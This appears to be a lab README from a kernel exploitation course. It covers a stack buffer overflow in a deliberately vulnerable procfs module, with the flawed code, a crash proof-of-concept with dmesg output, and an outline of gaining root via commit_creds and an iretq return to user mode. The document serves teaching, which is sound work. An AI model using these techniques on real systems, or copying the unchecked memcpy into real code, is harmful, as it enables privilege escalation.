 # Lab 6 - Stack Smashing

In this Lab, we will be exploiting a buffer overflow vulnerability in a kernel module to attain root privileges.
We will be doing this in the x64 kernel image provided.
The following mitigations will be turned off in this lab:
 - SMEP / SMAP
 - kallsyms protection.
 - KASLR

You can read about them in more detail from the documentation provided for the previous lab.

###  Premise

We are the user on the system where a vulnerable kernel module has been inserted. 
This kernel module (smash.c) is similar to the one we saw in Lab 3. 
The module does the following : 
 - Creates a procfs file */proc/smash*, for which our user has read and write permissions.
 - */proc/smash* implements read and write, where the user can write to the buffer and the content written will be printed out when the file is read from.

#### Setting up the Premise
After compiling the module, copy  the setup script, (cmd.sh) and the complied module, (smash.ko) into the system using scp.
After which you can simply make the script executable and run which will setup the rest. 
```sh
scp -P 5022 cmd.sh modules/smash.ko root@localhost:.
```
On the system, once logged in:
```sh
chmod +x cmd.sh
./cmd.sh
```
### Vulnerability

The module has a very obvious buffer overflow vulnerability in the implementation of `procfile_write`.
```C
static
ssize_t procfile_write(struct file *file,const char *buffer, size_t count, loff_t *offset)
{
	char localbuf[8];
	/* get buffer size */
	procfs_buffer_size = count;
	/* write data to the buffer */
	if ( copy_from_user(procfs_buffer, buffer, procfs_buffer_size) ) {
		return -EFAULT;
	}
	memcpy(localbuf,procfs_buffer,procfs_buffer_size);
	printk(KERN_INFO "copied to buffer : %s", localbuf);
	return procfs_buffer_size;
}
```
There is no check before the `memcpy()` which copies contents from a user controlled buffer `procfs_buffer` of size 1024 bytes to `localbuf`. This results in a ridiculously big and easily exploitable buffer overflow.

### PoC

To check if we can exploit this vulnerability we will try to jump to an arbitrary address before we do anything meaningful.
To do this, the idea is that we will overflow the buffer to overwrite the saved `rip`, from where we will jump to our payload.
Since there are not a lot of local variables and the buffer is decidedly very small. By simply writing alphabets to `/proc/smash`, we can be sure of where the saved `rip` is.

```sh
printf "ABCDEFGHIJKLMNOPQRSTUVWXYZ" > /proc/smash
```

This results in a segmentation fault. Looking at the dmesg, we see the following : 

```sh
[  186.108640] copied to buffer : ABCDEFGHIJKLMNOPQRSTUVWXYZ
[  186.111020] general protection fault: 0000 [#1] SMP NOPTI
[  186.113342] CPU: 0 PID: 1109 Comm: sh Tainted: G           O      4.18.16 #1
[  186.113890] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS rel-1.11.2-0-gf9626ccb91-prebuilt.qemu-project.org 04/01/2014
[  186.114882] RIP: 0010:0x504f4e4d4c4b4a49
[  186.115089] Code: Bad RIP value.
[  186.115612] RSP: 0018:ffffc900000ffe48 EFLAGS: 00000292
[  186.115887] RAX: 000000000000001a RBX: ffff880005892900 RCX: 0000000000000000
[  186.116201] RDX: ffff88000781d250 RSI: ffff8800078154f8 RDI: ffff8800078154f8
[  186.116511] RBP: fffffffffffffffb R08: 5554535251504f4e R09: 0000000000000174
[  186.116862] R10: 5251504f4e4d4c4b R11: 4d4c4b4a49484746 R12: ffffc900000fff10
[  186.117240] R13: 00007f56a1745e20 R14: 0000000000000000 R15: 0000000000000000
[  186.117724] FS:  00007f56a19626a0(0000) GS:ffff880007800000(0000) knlGS:0000000000000000
[  186.118233] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[  186.118659] CR2: 00000000004542ce CR3: 0000000005a3c000 CR4: 00000000000006f0
[  186.119372] Call Trace:
[  186.121654]  ? __vfs_write+0x21/0x150
[  186.121995]  ? selinux_file_permission+0xd0/0x120
[  186.122370]  ? _cond_resched+0x11/0x40
[  186.122613]  ? vfs_write+0xab/0x190
[  186.122835]  ? ksys_write+0x3d/0x90
[  186.123134]  ? do_syscall_64+0x43/0xf0
[  186.123496]  ? entry_SYSCALL_64_after_hwframe+0x44/0xa9
[  186.124010] Modules linked in: smash(O)
[  186.125733] ---[ end trace 2d33769f5c4f1df6 ]---
[  186.126354] RIP: 0010:0x504f4e4d4c4b4a49
[  186.126681] Code: Bad RIP value.
[  186.126991] RSP: 0018:ffffc900000ffe48 EFLAGS: 00000292
[  186.127627] RAX: 000000000000001a RBX: ffff880005892900 RCX: 0000000000000000
[  186.128289] RDX: ffff88000781d250 RSI: ffff8800078154f8 RDI: ffff8800078154f8
[  186.128835] RBP: fffffffffffffffb R08: 5554535251504f4e R09: 0000000000000174
[  186.129466] R10: 5251504f4e4d4c4b R11: 4d4c4b4a49484746 R12: ffffc900000fff10
[  186.129989] R13: 00007f56a1745e20 R14: 0000000000000000 R15: 0000000000000000
[  186.130608] FS:  00007f56a19626a0(0000) GS:ffff880007800000(0000) knlGS:0000000000000000
[  186.131313] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[  186.131728] CR2: 00000000004542ce CR3: 0000000005a3c000 CR4: 00000000000006f0

```

The lines of our interest are : 

```sh
[  186.114882] RIP: 0010:0x504f4e4d4c4b4a49
[  186.115089] Code: Bad RIP value.
```

The `rip` value is the 'IJKLMNOP' part of our input. Thus we now know for sure that we can jump to an arbitrary address.
We also have the exact offset to saved `rip` - 8. 

### The Exploit

The exploit script can be found here: [exploit.c](exploit/exploit.c)
Now that we can point execution to where ever we want, we will obviously first do, `commit_creds(prepare_kernel_cred(0));` We will do this using hard-coded address for this lab.
But unlike the exploit in Lab5, in the process of gaining the execution flow, we have completely destroyed the stack, this means that we can no longer rely on the kernel to successfully return execution to user mode and will have to do it ourselves.
To do this successfully, we will have to restore the `trap frame` that is stored on the stack, the `iretq` instruction is used for doing this. 
Returning from kernel mode to user mode and executing shell can be done as illustrated in [exploit.c](exploit/exploit.c).  Also note the `swapgs` instruction which is used for preserving kernel information for a specific logical processor core across context switches.
